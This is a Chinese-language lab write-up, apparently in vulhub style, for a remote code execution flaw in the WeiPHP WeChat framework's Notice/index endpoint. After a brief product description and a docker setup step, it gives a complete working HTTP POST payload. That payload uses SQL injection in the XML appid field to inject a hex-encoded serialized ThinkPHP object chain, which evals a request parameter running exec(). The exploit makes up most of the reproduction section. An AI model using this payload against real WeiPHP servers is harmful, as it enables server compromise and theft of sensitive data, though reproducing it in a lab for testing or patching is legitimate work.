



# WeiPHP Notice/index接口处存在RCE漏洞

​	WeiPHP是一款基于PHP开发的开源微信公众号开发框架。它提供了丰富的功能和易于使用的接口，使开发者能够快速构建和管理微信公众号应用。WeiPHP支持自定义菜单、消息管理、用户管理、素材管理、支付接口等功能，同时还提供了插件机制和模块化开发，方便扩展和定制。WeiPHP是一个成熟的框架，被广泛应用于微信公众号开发领域。

​	WeiPHP Notice/index接口处存在远程代码执行漏洞，恶意攻击者可能会利用此漏洞执行恶意命令，可能会导致敏感信息泄露或者服务器失陷。

官网https://www.weiphp.cn/


## 漏洞环境

执行如下命令启动一个weiphp-v5.0-web服务：

```
docker compose up 
```

服务启动后，访问`http://your-ip:80/`即可跳转到到weiphp安装向导界面。



创建数据库，点击下一步。



## 漏洞复现

发送payload

```xml
POST /public/index.php/weixin/Notice/index?img=echo+exec('pwd');exit(); HTTP/1.1
Host: 127.0.0.1
Connection: close
Content-Length: 1340
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

<xml>
<product_id>aaaa</product_id>
<appid>exp</appid>
<appid>=0) union select 1,2,3,4,5,6,7,0x4f3a32373a227468696e6b5c70726f636573735c70697065735c57696e646f7773223a313a7b733a33343a22007468696e6b5c70726f636573735c70697065735c57696e646f77730066696c6573223b613a313a7b693a303b4f3a31373a227468696e6b5c6d6f64656c5c5069766f74223a323a7b733a393a22002a00617070656e64223b613a313a7b733a333a226c696e223b613a313a7b693a303b733a323a223131223b7d7d733a31373a22007468696e6b5c4d6f64656c0064617461223b613a313a7b733a333a226c696e223b4f3a31333a227468696e6b5c52657175657374223a353a7b733a373a22002a00686f6f6b223b613a323a7b733a373a2276697369626c65223b613a323a7b693a303b723a383b693a313b733a353a226973436769223b7d733a363a22617070656e64223b613a323a7b693a303b723a383b693a313b733a363a226973416a6178223b7d7d733a393a22002a0066696c746572223b613a313a7b693a303b613a323a7b693a303b4f3a32313a227468696e6b5c766965775c6472697665725c506870223a303a7b7d693a313b733a373a22646973706c6179223b7d7d733a393a22002a00736572766572223b733a313a2231223b733a393a22002a00636f6e666967223b613a313a7b733a383a227661725f616a6178223b733a333a22696d67223b7d733a363a22002a00676574223b613a313a7b733a333a22696d67223b733a33303a223c3f70687020406576616c28245f524551554553545b27696d67275d293b223b7d7d7d7d7d7d,9,10,11,12-- </appid>
<mch_id>aaa</mch_id>
<nonce_str>aaa</nonce_str>
<openid>aaa</openid>
</xml>
```


